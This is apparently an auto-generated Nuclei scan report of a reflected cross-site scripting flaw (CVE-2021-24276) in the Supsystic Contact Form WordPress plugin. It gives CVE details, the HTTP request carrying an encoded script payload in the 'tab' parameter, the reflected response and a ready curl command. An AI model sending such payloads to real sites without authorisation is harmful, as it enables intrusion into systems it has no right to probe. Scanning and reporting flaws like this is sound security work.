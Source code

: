 ### Contact Form by Supsystic < 1.7.15 - Reflected Cross-Site scripting (XSS) (CVE-2021-24276) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-24276**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-admin/admin.php?page=contact-form-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Contact Form by Supsystic < 1.7.15 - Reflected Cross-Site scripting (XSS) |
| Authors | dhiyaneshdk |
| Tags | wordpress, cve, cve2021, wp-plugin |
| Severity | medium |
| Description | The Contact Form by Supsystic WordPress plugin before 1.7.15 did not sanitise the tab parameter of its options page before outputting it in an attribute, leading to a reflected Cross-Site Scripting issue |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-24276](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-24276) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-admin/admin.php?page=contact-form-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 241
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-admin/admin.php?page=contact-form-supsystic&tab=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/1301123c-5e63-432a-ab90-3221ca532d9c
- https://nvd.nist.gov/vuln/detail/cve-2021-24276
- http://packetstormsecurity.com/files/164308/wordpress-contact-form-1.7.14-cross-site-scripting.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36' 'http://192.168.198.179:8080/wp-admin/admin.php?page=contact-form-supsystic&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)
